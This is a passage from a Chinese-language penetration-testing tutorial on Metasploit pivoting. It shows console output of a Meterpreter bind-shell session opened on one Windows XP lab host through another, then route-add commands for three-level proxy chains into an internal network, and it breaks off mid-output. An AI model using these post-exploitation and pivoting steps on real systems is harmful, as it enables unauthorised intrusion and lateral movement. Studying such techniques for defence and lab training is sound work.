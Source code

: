    Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.1.1.129       no        The target address
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > run 
[*] Started bind handler
[*] Starting the payload handler...
[*] Sending stage (770048 bytes)
[*] Meterpreter session 3 opened (192.168.101.105-192.168.101.107:0 -> 10.1.1.129:4444) at 2015-01-11 13:34:37 +0800</pre>
现在已经获取到xp-test2的权限，注意这里是通过xp-test1 pivot代理

下面来验证下，查看xp-test2 4444端口
<pre class="prettyprint lang-html prettyprinted">C:Documents and SettingsAdministrator>netstat -an | find "4444"
  TCP    10.1.1.129:4444        10.1.1.128:1051        ESTABLISHED</pre>
是通过xp-test1进行连接的。

这时候二级代理已经搭建好了，你可以添加需要访问的ip到路由表，通过第二层的session(session 3)，就可以使用metaploit的其他模块访问或扫描了

2.三级或多级代理

有时候过于庞大或者复杂的内网环境，甚至需要三层或者多层代理，原理与两层相似，通过在第二层代理的基础上进行连接既可

示意图：attacket->xp-test1->xp-test2->xp-test3->…..

与两层代理类似，如下实现：
<pre class="prettyprint lang-html prettyprinted">msf exploit(handler) > sessions -l
Active sessions
===============
  Id  Type                   Information                        Connection
  --  ----                   -----------                        ----------
  2   meterpreter x86/win32  XP-TEST1Administrator @ XP-TEST1  192.168.101.105:444 -> 192.168.101.107:51205 (10.1.1.128)
  4   meterpreter x86/win32  XP-TEST2Administrator @ XP-TEST2  192.168.101.105-192.168.101.107:0 -> 10.1.1.129:4444 (10.1.1.129)
msf exploit(handler) > route  add 10.1.1.131 4
[-] Missing arguments to route add.
msf exploit(handler) > route  add 10.1.1.131 255.255.255.255 4
[*] Route added
msf exploit(handler) > route print 
Active Routing Table
====================
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.1.129         255.255.255.255    Session 2
   10.1.1.131         255.255.255.255    Session 4
msf exploit(handler) > set RHOST=10.1.1.131
[-] Unknown variable
Usage: set [option] [value]
Set the given option to value.  If value is omitted, print the current value.
If both are omitted, print options that are currently set.
If run from a module context, this will set the value in the module&amp;#039;s
datastore.  Use -g to operate on the global datastore
msf exploit(handler) > set RHOST 10.1.1.131
RHOST => 10.1.1.131
msf exploit(handler) > show options 
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/meterpreter/bind_tcp):